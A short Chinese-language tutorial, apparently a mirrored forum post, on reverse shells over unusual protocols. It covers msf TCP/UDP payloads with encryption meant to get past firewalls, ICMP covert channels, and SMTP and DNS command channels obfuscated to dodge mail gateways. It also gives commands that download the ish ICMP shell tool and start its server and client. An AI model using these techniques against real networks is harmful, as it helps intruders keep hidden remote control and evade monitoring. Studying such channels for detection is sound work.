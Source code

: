 # reverse_shell

> 原文：[https://www.zhihuifly.com/t/topic/3503](https://www.zhihuifly.com/t/topic/3503)

## reverse_shell

这里说的反弹shell不是上面开头那里说的利用内部软件进行反弹，而是利用一些非常规协议来绕过一些安全设备的流量监测功能。

**tcp/udp shell**

tcp/udp的shell可以使用msf生成的tcp马、流量混淆推荐rc4和https偏执模式，也能够绕过一些防火墙。

**icmp shell**

使用ICMP来作为隐蔽通道的原理是：有一个服务端和一个客户端，当它们通信时会用到 ICMPECHO 和 ICMPECHOREPLY的数据部分。这就意味着通过ICMP包的数据部分可以发送和接收数据。

![image](img/da0b7f60633f3a58641e54429d905e0c.png)

这里用python写了一个嗅探功能的小脚本 因为icmp是没有端口概念的，也就无法直接建立两台主机上ICMP应用程序的通信。所以程序需要从嗅探到的icmp包中再传给应用层，然后再执行其他的。

![image](img/c1509b2a7c46c33babb19a9844a21915.png)

这里使用ish演示

```
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz 
```

被控端

```
./ishd -i 6666 -t 0 -p 1024 -d 
```

控制端

```
./ish -i 6666 -t 0 -p 1024 127.0.0.1 
```

![image](img/8a3b929ffc080242cffd38efa7881f8d.png)

这样利用icmp传输可以绕过大部分的设备。

**DNS/smtp shell**

这里提一下DNS和smtp服务。之前做的分享中有关于SMTP协议传输shell的思路，其实是利用smtp协议可以出网的思路，写一个smtp的客户端和服务端对应发送和接受执行内容，传输为了方便演示使用的是明文，为了增加迷惑性，添加删除邮件功能，需要提高的就是可以对传输的文本内容进行混淆加密之类的，防止安全邮件网关根据关键字拦截邮件。DNS这个的话就是通过解析记录的内容来进行命令的执行，还可以配合dnslog来使用。

![image](img/510f4f5aaf99820b6dec7e4e9f168150.png)